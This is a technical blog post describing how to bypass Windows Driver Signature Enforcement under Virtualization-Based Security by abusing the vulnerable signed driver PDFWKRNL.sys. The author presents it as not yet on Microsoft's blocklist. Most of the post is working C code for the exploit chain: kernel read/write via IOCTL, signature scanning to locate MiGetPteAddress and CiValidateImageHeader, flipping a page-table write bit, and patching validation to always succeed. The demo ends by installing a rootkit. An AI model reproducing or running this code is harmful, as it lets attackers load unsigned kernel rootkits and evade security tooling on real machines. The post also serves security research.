In this article, I will explore the concept of bypassing Driver Signature Enforcement (DSE) in the Virtualization Based Security (VBS) by abusing a vulnerable driver.

The full implementation is available at [Hiroki6/BYOVD/PDFWKRNL](https://github.com/Hiroki6/BYOVD/tree/main/PDFWKRNL).

## Driver Signature Enforcement

Driver Signature Enforcement is a security mechanism that Windows has. It prevents attackers from loading unsigned drivers into the kernel.
Attackers usually tend to install a rootkit which is an unsigned driver to gain kernel privilege. To install a rootkit, attackers need to bypass DSE. One technique to bypass DSE is Bring Your Own Vulnerable Driver (BYOVD), which abuses a vulnerable signed driver to manipulate kernel memory.

## Finding a Vulnerable Driver that is not on the Microsoft Blocklist yet

Before I started looking for a vulnerable driver from [loldrivers.io](https://www.loldrivers.io/) that is not on the Microsoft Blocklist yet, I came across [this blog post](https://g3tsyst3m.com/byovd/BYOVD-and-Looting-LSASS-in-the-Modern-EDR-Era/).
In the post, PDFWKRNL.sys is used for reading and writing memory primitive and this driver is not listed yet.
Since my goal is to bypass DSE by using a vulnerable driver, not finding a vulnerable driver, I decided to use this driver.

I explain in only the client code to abuse the vulnerablity here because the reverse engineering and explanation about this vulnerable is written in the original blog.
- [BYOVD and Looting LSASS in the Modern EDR Era](https://g3tsyst3m.com/byovd/BYOVD-and-Looting-LSASS-in-the-Modern-EDR-Era/)

With the `0x80002014` IOCTL code, this driver enables the client to do the following two things.
1. Copy kernel memory to userspace
2. Overwrite arbitrary kernel memory



The client code is pretty simple to achieve these things.

```c
#define DEVICE_NAME L"\\\\.\\PdFwKrnl"
#define IOCTL_MEMCPY 0x80002014

typedef struct PDFW_MEMCPY {
    BYTE  Reserved[16];
    PVOID Destination;
    PVOID Source;
    PVOID Reserved2;
    DWORD Size;
    DWORD Reserved3;
} PDFW_MEMCPY, *PPDFW_MEMCPY;

// Overwrite arbitrary kernel memory
// Writes `size` bytes from `buffer` to kernel address `address` via IOCTL_MEMCPY.
BOOL WriteMemory(HANDLE driver, DWORD64 address, PVOID buffer, DWORD size) {
    PDFW_MEMCPY request;
    RtlSecureZeroMemory(&request, sizeof(request));

    request.Destination = (PVOID)address;
    request.Source = buffer;
    request.Size = size;

    DWORD bytesReturned = 0;
    return DeviceIoControl(driver, IOCTL_MEMCPY, &request, sizeof(request), &request, sizeof(request), &bytesReturned, NULL);
}

// Copy kernel memory to userspace
// Reads `size` bytes from kernel address `address` into `buffer` via IOCTL_MEMCPY.
BOOL ReadMemory(HANDLE driver, DWORD64 address, PVOID buffer, DWORD size) {
    PDFW_MEMCPY request;
    RtlSecureZeroMemory(&request, sizeof(request));

    request.Destination = buffer;
    request.Source = (PVOID)address;
    request.Size = size;

    DWORD bytesReturned = 0;
    return DeviceIoControl(driver, IOCTL_MEMCPY, &request, sizeof(request), &request, sizeof(request), &bytesReturned, NULL);
}

// Reads an 8-byte value from kernel address `address`; returns 0 on failure.
DWORD64 ReadMemoryDWORD64(HANDLE driver, DWORD64 address) {
    DWORD64 val = 0;
    if (ReadMemory(driver, address, &val, 8)) return val;
    return 0;
}
```
 
## Disabling DSE with VBS enabled

DSE operates throught `CI.dll` (code integrity library) which validates signatures before any `.sys` file is mapped into kernel memory.
If the attacker is able to patch the code where the validation is executed, one can bypass DSE. It can be achieved by abusing the vulnerability of PDFWKRNL driver which enables to overwrite arbitrary kernel memory.

While the traditional method of bypassing DSE involves patching the configuration variable `CI!g_CiOptions`, this approach no longer works when Virtualization-Based Security (VBS) is enabled. Under VBS, Microsoft implements Kernel Data Protection (KDP) to secure critical variables. During system boot, CI.dll marks the memory page containing g_CiOptions as read-only, and the underlying Hyper-V hypervisor enforces this restriction via Second-Level Address Translation (SLAT). Because this protection is enforced at a layer deeper than Ring 0, any attempt by a vulnerable driver to overwrite g_CiOptions is blocked by the hypervisor.

To circumvent this, there are [some alternative ways](https://blog.cryptoplague.net/main/research/windows-research/the-dusk-of-g_cioptions-circumventing-dse-with-vbs-enabled).
I decided to implement [patching `CiValidateImageHeader` with PTE flip](https://blog.xpnsec.com/gcioptions-in-a-virtualized-world/).
While code pages are natively marked as Read-Execute (RX), an attacker can use their kernel write primitive to locate and modify the function's corresponding PTE. By [flipping the "Writable" bit in the PTE](https://connormcgarr.github.io/pte-overwrites/), the page permissions are temporarily changed to allow writing. This enables the attacker to overwrite the beginning of CiValidateImageHeader with a stub that always returns success (xor rax, rax; ret), effectively forcing the system to accept unsigned drivers.

So the the key distinction is:
- `g_CiOptions` is protected by KDP: This is a core part of VBS. It ensures that specific data pages are permanently locked as Read-Only by the hypervisor.
- `CiValidateImageHeader` is protected by Hypervisor-Protected Code Integrity (HVCI): This is the component of VBS responsible for protecting code pages. It ensures that code pages cannot be modified. 
That means that patching `CiValidateImageHeader` with PTE flip doesn't work when HVCI is enabled as also mentioned in the other articles.

## Proof of Concept

Here is how my PoC works.
1. Load the vulnerable driver — registers and starts PdFwKrnl.sys as a kernel service via the Service Control Manager
2. Locate CiValidateImageHeader — scans the mapped image of CI.dll for its byte signature and resolves the kernel address
3. Find the PTE — reads the PTE base from MiGetPteAddress in ntoskrnl.exe and computes the Page Table Entry address for CiValidateImageHeader
4. Flip the write bit — sets bit 1 of the PTE to make the target page writable
5. Patch CiValidateImageHeader — overwrites the first 4 bytes with `xor rax, rax; ret`, causing signature validation to always return success
6. Load the unsigned driver — installs and starts the target driver while DSE is patched
7. Revert — restores the original bytes of CiValidateImageHeader and clears the PTE write bit

### Find MiGetPteAddress and CiValidateImageHeader 

```c
PVOID MapFileIntoMemory(const char* path) {
    HANDLE fileHandle = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (fileHandle == INVALID_HANDLE_VALUE)
        return NULL;

    HANDLE fileMapping = CreateFileMapping(fileHandle, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    if (fileMapping == NULL) {
        CloseHandle(fileHandle);
        return NULL;
    }

    void* fileMap = MapViewOfFile(fileMapping, FILE_MAP_READ, 0, 0, 0);
    if (fileMap == NULL) {
        CloseHandle(fileMapping);
        CloseHandle(fileHandle);
    }

    return fileMap;
}

PVOID ciMap = MapFileIntoMemory("C:\\Windows\\System32\\ci.dll");
printf("[*] ciMap (User-mode allocation): 0x%p\n", ciMap);
PVOID kernelMap = MapFileIntoMemory("C:\\Windows\\System32\\ntoskrnl.exe");
printf("[*] kernelMap (User-mode allocation): 0x%p\n", kernelMap);
```



```c
static const char MiGetPteAddressSig[] = {
    0x48, 0xc1, 0xe9, 0x09, 0x48, 0xb8, 0xf8, 0xff, 0xff, 0xff,
    0x7f, 0x00, 0x00, 0x00, 0x48, 0x23, 0xc8, 0x48, 0xb8
};

PVOID SearchSignature(char* base, char* inSig, int length, int maxHuntLength) {
    for (int i = 0; i < maxHuntLength; i++) {
        if (base[i] == inSig[0]) {
            if (memcmp(base + i, inSig, length) == 0)
                return base + i;
        }
    }
    return NULL;
}

ULONG_PTR SearchSignatureInSection(char* section, char* base, char* inSig, int length) {
    IMAGE_DOS_HEADER*    dosHeader    = (IMAGE_DOS_HEADER*)base;
    IMAGE_NT_HEADERS64*  ntHeaders    = (IMAGE_NT_HEADERS64*)((char*)base + dosHeader->e_lfanew);
    IMAGE_SECTION_HEADER* sectionHeaders = (IMAGE_SECTION_HEADER*)((char*)ntHeaders + sizeof(IMAGE_NT_HEADERS64));
    IMAGE_SECTION_HEADER* textSection = NULL;

    for (int i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++) {
        if (memcmp(sectionHeaders[i].Name, section, strlen(section)) == 0) {
            textSection = &sectionHeaders[i];
            break;
        }
    }

    if (textSection == NULL)
        return 0;

    return (ULONG_PTR)SearchSignature(
        (char*)base + textSection->VirtualAddress,
        inSig,
        length,
        textSection->SizeOfRawData
    );
}

ULONG_PTR gadgetSearch = SearchSignatureInSection(
    (char*)".text", (char*)kernelMap,
    (char*)MiGetPteAddressSig, sizeof(MiGetPteAddressSig));
if (!gadgetSearch) {
    printf("[-] MiGetPteAddress signature not found\n");
    goto cleanup;
}
ULONG_PTR MiGetPteAddress       = gadgetSearch - (ULONG_PTR)kernelMap + kernelBase;
ULONG_PTR targetConstantAddress = MiGetPteAddress + sizeof(MiGetPteAddressSig);
printf("[+] MiGetPteAddress:       0x%p\n", (void*)MiGetPteAddress);
printf("[+] targetConstantAddress: 0x%p\n", (void*)targetConstantAddress);
```

The signature written in the blog doesn't work.



```c
static const char CiValidateImageHeaderSig[] = {
    0x48, 0x89, 0x5c, 0x24, 0x20, 0x55, 0x56, 0x57, 0x41, 0x54,
    0x41, 0x55, 0x41, 0x56, 0x41, 0x57, 0x48, 0x8d, 0xac, 0x24,
    0x70, 0xff, 0xff, 0xff
};

ULONG_PTR getPTEForVA(ULONG_PTR pteBase, ULONG_PTR address) {
    address  = address >> 9;
    address &= 0x7FFFFFFFF8;
    address += pteBase;
    return address;
}

gadgetSearch = SearchSignatureInSection(
    (char*)"PAGE", (char*)ciMap,
    (char*)CiValidateImageHeaderSig, sizeof(CiValidateImageHeaderSig));
if (!gadgetSearch) {
    printf("[-] CiValidateImageHeader signature not found\n");
    goto cleanup;
}
ULONG_PTR CiValidateImageHeader = gadgetSearch - (ULONG_PTR)ciMap + ciBase;
printf("[+] CiValidateImageHeader (kernel): 0x%p\n", (void*)CiValidateImageHeader);

ULONG_PTR pteBase    = ReadMemoryDWORD64(device, targetConstantAddress);
printf("[+] PTE base:                        0x%p\n", (void*)pteBase);
ULONG_PTR pteAddress = getPTEForVA(pteBase, CiValidateImageHeader);
printf("[+] PTE address for CiValidateImageHeader: 0x%p\n", (void*)pteAddress);
```

### Write Pte flag and CiValidateImageHeader

```c
ULONG_PTR pteBase    = ReadMemoryDWORD64(device, targetConstantAddress);
printf("[+] PTE base:                        0x%p\n", (void*)pteBase);

ULONG_PTR pteAddress = getPTEForVA(pteBase, CiValidateImageHeader);
printf("[+] PTE address for CiValidateImageHeader: 0x%p\n", (void*)pteAddress);

ULONG_PTR currentPteValue  = ReadMemoryDWORD64(device, pteAddress);
printf("[+] Current PTE value:               0x%016I64X\n", (DWORD64)currentPteValue);

ULONG_PTR writablePteValue = currentPteValue | 2;
if (!WriteMemory(device, pteAddress, &writablePteValue, sizeof(writablePteValue))) {
    printf("[-] Failed to flip PTE write bit: %lu\n", GetLastError());
    goto cleanup;
}

printf("[+] PTE write bit set successfully\n");
```

### Patch CiValidateImageHeader

```c
char      retShell[] = { 0x48, 0x31, 0xc0, 0xc3 };
ULONG_PTR origMem    = ReadMemoryDWORD64(device, CiValidateImageHeader);
printf("[+] CiValidateImageHeader original bytes: 0x%016I64X\n", (DWORD64)origMem);
printf("[*] Writing patch (xor rax,rax; ret) to CiValidateImageHeader...\n");
if (!WriteMemory(device, CiValidateImageHeader, retShell, sizeof(retShell))) {
    printf("[-] Failed to write patch to CiValidateImageHeader: %lu\n", GetLastError());
    goto cleanup;
}
printf("[+] Patch written successfully.\n");
patched = TRUE;
```

## Demo

### Install Rootkit





### Debug with Windbg
















